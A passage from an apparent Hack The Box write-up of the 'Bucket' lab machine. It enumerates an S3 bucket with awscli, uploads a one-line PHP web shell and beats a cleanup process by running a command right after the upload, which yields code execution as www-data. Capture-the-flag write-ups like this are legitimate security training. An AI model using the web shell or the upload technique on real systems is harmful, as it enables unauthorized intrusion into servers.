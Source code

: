 As we know that we also have a **s3** running, enumerated some information about existing containers and blobs, where `adserver` was found (where we already knew due to the URL of the images listed) and confirmed what else is hosted in this bucket.

```bash
$ aws s3 ls \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
2021-02-26 11:48:02 adserver

$ aws s3 ls s3://adserver \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
                           PRE images/
2021-02-26 11:50:04       5344 index.html

$ aws s3 ls s3://adserver/images/ \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
2021-02-26 11:52:02      37840 bug.jpg
2021-02-26 11:52:02      51485 cloud.png
2021-02-26 11:52:02      16486 malware.png
```

## Initial Access

Once we have access to the s3 bucket and know which contents are available and how to use them, the first thing to do is to upload a reverse shell payload to the website and then proceed with enumeration. To keep things simple, I'll use the following php web shell:

```php
<?php system($_GET['cmd']); ?>
```

After creating the file, uploaded it to bucket using `awscli`:

```bash
$ aws s3 cp ./exploit.php s3://adserver/ \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
upload: ./exploit.php to s3://adserver/exploit.php                

$ aws s3 --endpoint-url http://s3.bucket.htb --profile bucket.htb ls s3://adserver/              
                           PRE images/
2021-02-26 11:56:28         31 exploit.php
2021-02-26 11:56:02       5344 index.html
```

After trying to access it a few seconds later, noticed that the file was removed by another process. To circumvent this, made the execution call right after the upload command, running the command `id`, where I was able to confirm that this approach worked.

```bash
$ aws s3 cp ./exploit.php s3://adserver/ \
    --endpoint-url http://s3.bucket.htb --profile bucket.htb && curl -L http://bucket.htb/exploit.php?cmd=id
upload: ./exploit.php to s3://adserver/exploit.php                
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
